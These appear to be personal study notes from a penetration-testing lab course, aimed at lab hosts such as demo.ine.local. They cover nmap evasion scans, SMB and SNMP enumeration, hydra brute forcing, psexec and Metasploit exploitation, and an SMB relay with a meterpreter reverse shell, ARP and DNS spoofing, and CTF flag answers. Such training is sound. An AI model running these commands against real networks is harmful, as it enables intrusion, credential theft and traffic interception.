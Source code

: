 
`IF u know the host target is up add -Pn`

Silent scan 
```
nmap -Pn -sS -sC -sV demo.ine.local
```

ACK scan to spot firewalls
```
nmap -Pn -sA -sC -sV demo.ine.local
```

`unfiltered - no firewall is present`
`filtered - firewall is present`

<h2>Fragmentation</h2>
_>MTU - Maximum Transmitted Unit_
-f (multiple of 8)
```
nmap -Pn -sS -sC -sV -f 8 demo.ine.local
```

Header - 20 bytes
Payload (Data) - 8 bytes

<h2> Decoy </h2>
Example: 
GatewayIP : 10.10.2.1
HostIP : 10.10.2.2
TargetIP : 10.10.2.3
```
nmap -Pn -sC -sV -f --data-length 200 -D 10.10.2.1,10.10.2.2 10.10.2.3
```

How can nmap be configured to appear as though a scan is originating from a DNS server?
By setting the source port to 53 using the '-g' option


NetBios and SMB are two different technologies.

![[Screenshot_2025-09-17_13_45_15.png]]

`_NBTscan_ is a program for scanning IP networks for NetBIOS name information`

```
nbtscan 10.10.4.0/24
```

``nmblookup` is a command-line utility, part of the Samba suite, used to query NetBIOS names on a network and resolve them to their corresponding IP addresses`

```
nmblookup -A demo.ine.local
```

```
nmap --script nbstat.nse 
```

```
nmap --script smb-protocols
```

```
nmap --script smb-security-mode 
```


```
ls -al /usr/share/nmap/scripts/ | grep -e "smb-*"
```

```
smbclient -L demo.ine.local
```

This will list the users of SMB:
```
nmap --script smb-enum-users.nse
```

```
hydra -L usrs.txt -P pass.txt demo.ine.local smb
```

``` 
psexec.py administrator@demo.ine.local
```

```
msfconsole
use exploit/windows/smb/psexec
use auxiliary/server/socks_proxy

net view IP
```


Now, let's run nmap with proxychains to identify SMB port (445) on the pivot machine, i.e. `demo1.ine.local`

We could also specify multiple ports. But, in this case, we are only interested in SMB service.

**Command:**

```
proxychains nmap demo1.ine.local -sT -Pn -sV -p 445
```
This scan is the safest way to identify the open ports. We could use an auxiliary TCP port scanning module. But those are very aggressive and can kill your session.

<h2> SNMP - Simple Network Management Protocol </h2>
<i>Port Number: 161 udp</i>

```
ls /usr/share/nmap/scripts/ | grep -i "snmp*"
```

```
nmap -sU -p 161 --script=snmp-brute demo.ine.local
```

```
snmpwalk -v 1 -c public demo.ine.local
```

Which UDP port is used for sending SNMP traps or notifications?
-162

```
hydra -L users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt demo.ine.local smb
```

```
msfconsole -q
use exploit/windows/smb/psexec
show options
```

```
set RHOSTS demo.ine.local
set SMBUSER administrator
set SMBPASS elizabeth
exploit
``` 

<h2> SMB Relay attack </h2>

	1.Interception
	2.Capturing Authentication
	3.Relayig to a Legitimate Server
	4.Gain Access
	
```
msfconsole
use exploit/windows/smb/smb_relay
set SRVHOST 172.16.5.101
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 172.16.5.101
set SMBHOST 172.16.5.10
exploit
```

```
echo "172.16.5.101 *.sportsfoo.com" > dns
```

```
dnsspoof -i eth1 -f dns
```

```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

In 1st tab of Terminal:
```
arpspoof -i eth1 -t 172.1.5.5 172.16.5.1
```
In 2nd tab of Terminal:
```
arpspoof -i eth1 -t 172.16.5.1 172.16.5.5
```
![[Pasted image 20250917203022.png]]

<h2>Network-Based Attacks CTF 1</h2>
Flag 1: What is the domain name(abcd.site) accessed by the infected user that returned a 200 OK response code?
`http.response.code == 200` or `http.request.method =="GET"`

Flag 2: What is the IP address, MAC address of the infected Windows client?
`10.7.10.47, 80:86:5b:ab:1e:c4`

Flag 3: Which Wireshark filter can you use to determine the victim’s hostname from NetBIOS Name Service traffic, and what is the detected hostname for this malware infection?
`nbns DESKTOP-9PEA63H`

Flag 4: Which user got infected and ran the mystery_file.ps1 PowerShell script?
`tcp contains "mystery_file.ps1"`

Flag 5: What User-Agent string indicates the traffic generated by a PowerShell script?
![[Pasted image 20250917231037.png]]

Flag 6: Which wallet extension ID is associated with the Coinbase wallet?
![[Pasted image 20250917230904.png]]